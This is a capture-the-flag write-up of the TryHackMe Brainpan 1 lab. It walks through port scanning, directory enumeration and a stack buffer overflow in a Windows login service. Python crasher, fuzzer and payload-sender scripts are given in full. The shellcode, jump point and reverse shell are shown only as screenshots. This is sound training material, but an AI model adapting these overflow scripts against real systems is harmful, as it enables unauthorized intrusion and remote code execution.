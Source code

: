 # Brainpan 1

## Description

Reverse engineer a Windows executable, find a buffer overflow and exploit it on a Linux machine.
* Difficulty: **Hard**
* Categories: Buffer Overflow

## Challenge

As always, we are given an IP address so let's start with an nmap scan.

```bash
sudo nmap -sS -v -T4 -p- $TARGET_IP
[REDACTED]
Nmap scan report for $TARGET_IP
Host is up (0.52s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE
9999/tcp  open  abyss
10000/tcp open  snet-sensor-mgmt

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 299.48 seconds
```

We have two open ports, 9999 and 10000. Let's start by connecting to port 9999.

```bash
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe]
└─$ nc 10.10.190.2 9999
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|

[________________________ WELCOME TO BRAINPAN _________________________]
                          ENTER THE PASSWORD                              

                          >> no
                          ACCESS DENIED
```

We are greeted with a login prompt. Let's have a look at the 10000 port.

```bash
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe]
└─$ nc 10.10.190.2 10000
hello
<head>
<title>Error response</title>
</head>
<body>
<h1>Error response</h1>
<p>Error code 400.
<p>Message: Bad request syntax ('hello').
<p>Error code explanation: 400 = Bad request syntax or unsupported method.
</body>
```

Seems to be a web server. Let's try to access it via a browser.

![](port-10000.png)

A poster about safe coding. Seems to be nothing much here. Let's run a gobuster scan to see if there are any hidden directories.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x txt,php,html -u http://10.10.190.2:10000
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.190.2:10000
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 215]
/bin                  (Status: 301) [Size: 0] [--> /bin/]
```

We have a `/bin` directory. Let's see what's inside.

![](bin-dir.png)

We have a `brainpan.exe` file. Let's download it and run it in a Windows VM.

![](brainpan-exe.png)

It is exactly the same as the login prompt we saw earlier. The log says it copies our input to a buffer. Let's check if it is vulnerable to buffer overflow with a crasher script as follows:

```python
#!/usr/bin/env python3

import socket

ip = "<VM_IP>"
port = 9999

buffer = "A" * 10000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    s.recv(1024)
    s.send(bytes(buffer + "\r\n", "latin-1"))
    s.recv(1024)
    s.close()
except:
    print("Error connecting to the server")
    exit()
```

![](brainpan-crashed.png)

The program crashed, which means it is vulnerable. We need a fuzzing script to find the exact buffer size. It should look something like this:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "<VM_IP>"
port = 9999
timeout = 5

buffer = "A" * 100

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        s.connect((ip, port))
        print("Sending {} bytes...".format(len(buffer)))
        s.send(bytes(buffer + "\r\n", "latin-1"))
        s.recv(1024)
        buffer += "A" * 100
        time.sleep(5)
    except:
        print("Fuzzing crashed at {} bytes.".format(len(buffer)))
        sys.exit(0)
```

![](brainpan-fuzzed.png)

The program crashed at 700 bytes. Let's create a pattern to find the exact offset.

![](create-pattern.png)

Now we need a script to send our payload. It should look something like this:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "<VM_IP>"
port = 9999

offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "<PATTERN>"
postfix = "\r\n"

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))

try:
    print("Sending evil buffer...")
    s.send(bytes(buffer, "latin-1"))
    print("Done!")
except:
    print("Could not connect.")
    sys.exit(0)
```

As we sent the pattern, it crashed and the EIP register was overwritten with `35724134`, which translates to `5rA4`. With little-endian encoding, we get `4Ar5`. We can now find the offset for our script.

![](EIP-offset.png)

Now we replace the offset in our script, set the return address to 4 `B`s and replace the payload with bytearray to find the bad characters.

![](bad-characters.png)

We found all the bad characters. Now we need to find a jump point to our shellcode.

![](jump-point.png)

We found 1 jump point to place in our script. Now we need a shellcode to spawn a reverse shell. We can use msfvenom to generate a reverse shell payload.

![](payload.png)

Now we copy the shellcode into our script. We also need to prepend the shellcode with a NOP sled. Then we can run the script. We tested successfully so it's time to attack the target.

![](reverse-shell.png)

We have a shell. And we are done.